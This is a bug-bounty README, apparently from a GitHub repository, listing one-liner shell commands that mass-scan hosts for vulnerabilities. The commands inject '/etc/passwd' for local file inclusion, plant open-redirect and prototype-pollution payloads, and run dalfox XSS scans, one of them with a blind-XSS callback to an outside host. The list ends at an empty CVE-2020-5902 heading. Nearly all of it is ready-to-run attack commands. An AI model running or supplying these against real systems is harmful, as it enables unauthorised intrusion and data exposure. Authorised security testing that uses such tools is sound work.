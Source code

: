 # Awesome-One-Liner-Bug-Bounty
Awesome One-Liner Bug Bounty
> A collection of awesome one-liner scripts especially for bug bounty.
This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

## Definitions

This section defines specific terms or placeholders that are used throughout one-line command/scripts.

- 1.1. "HOST" defines one hostname, (sub)domain, or IP address, e.g. replaced by internal.host, domain.tld, sub.domain.tld, or 127.0.0.1.
- 1.2. "HOSTS.txt" contains criteria 1.1 with more than one in file.
- 2.1. "URL" definitely defines the URL, e.g. replaced by http://domain.tld/path/page.html or somewhat starting with HTTP/HTTPS protocol.
- 2.2. "URLS.txt" contains criteria 2.1 with more than one in file.
- 3.1. "FILE.txt" or "FILE{N}.txt" means the files needed to run the command/script according to its context and needs.
- 4.1. "OUT.txt" or "OUT{N}.txt" means the file as the target storage result will be the command that is executed.

### Local File Inclusion @dwisiswant0
> gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

### Open-redirect @dwisiswant0 @N3T_hunt3r
> export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'

> cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null

### XSS  @cihanmehmet @fanimalikhack @oliverrickfors

> gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt

> waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b [YOURS.xss.ht](http://yours.xss.ht/) pipe > OUT.txt


> cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"

### Prototype Pollution @R0X4R
> subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?**proto**[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"

### CVE-2020-5902 @Madrobot_
